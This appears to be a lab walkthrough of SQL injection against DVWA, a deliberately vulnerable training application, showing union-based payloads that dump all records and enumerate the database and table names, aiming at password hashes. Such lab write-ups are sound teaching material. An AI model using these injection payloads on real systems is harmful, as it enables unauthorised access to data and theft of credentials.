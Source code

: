 {% img center /images/dvwa/sqli.png 'sqli' 'sqli' %}

The vulnerability is straightforward. On low security, injecting <code>'or 1=1-- </code> returns all records:

``` plain
ID: 'or 1=1-- 
First name: admin
Surname: admin

ID: 'or 1=1-- 
First name: Gordon
Surname: Brown

ID: 'or 1=1-- 
First name: Hack
Surname: Me

ID: 'or 1=1-- 
First name: Pablo
Surname: Picasso

ID: 'or 1=1-- 
First name: Bob
Surname: Smith
```
The *id* parameter is vulnerable, as expected. From here we can proceed in different ways, fingerprinting the host, retrieving more information, etc. I will settle for getting the password hashes for the users we have discovered.

**Discover the number of colums**

<code>'union select 1,2-- </code>

``` plain
ID: 'union select 1,2-- 
First name: 1
Surname: 2
```

**Get database name**

<code>'union select database(),2-- </code>

``` plain
ID: 'union select database(),2-- 
First name: dvwa
Surname: 2
```

**Get table names for the current database**

<code>'union select table_name,2 from information_schema.tables where table_schema=database()-- </code> 

``` plain
ID: 'union select table_name,2 from information_schema.tables where table_schema=database()-- 
First name: guestbook
Surname: 2

ID: 'union select table_name,2 from information_schema.tables where table_schema=database()-- 
First name: users
Surname: 2
```
